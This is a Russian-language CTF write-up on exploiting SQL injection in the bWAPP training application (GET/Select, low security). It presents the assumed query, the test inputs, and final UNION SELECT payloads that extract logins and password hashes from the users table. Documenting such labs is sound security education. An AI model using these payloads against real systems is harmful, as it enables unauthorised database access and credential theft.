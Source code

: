 # SQL Injection (GET/Select)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Цель
---

![[SqliGetSelectTarget.png]]

# Функциональность
---

Приложение позволяет выбрать фильм из предоставленного списка:

![[SqliGetSelectFunction.png]]

### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Эксплуатация
---

Тестирование со стандартной полезной нагрузкой `1' OR 1=1 -- ` вернуло ошибку, однако `1 OR 1=1 -- ` не вызвало сбоя:

![[SqliGetSelectTest.png]]

Передача полезной нагрузки на основе `UNION`, ранее использовавшейся в ))))), не вызвала ошибок, но не позволила получить информацию из (вероятной) таблицы users:

![[SqlietGetSelectTest2.png]]

Передача полезных нагрузок на основе `UNION` с добавлениями `ORDER BY` позволила получить данные из таблицы `users` путем изменения параметра `ORDER BY`:

![[SqliGetSelectPwd.png]]

![[SqliGetSelectUsers.png]]

## Финальные полезные нагрузки

Получение записей хэшированных паролей:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 -- 

```

Получение записей логинов:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 
2 -- 

```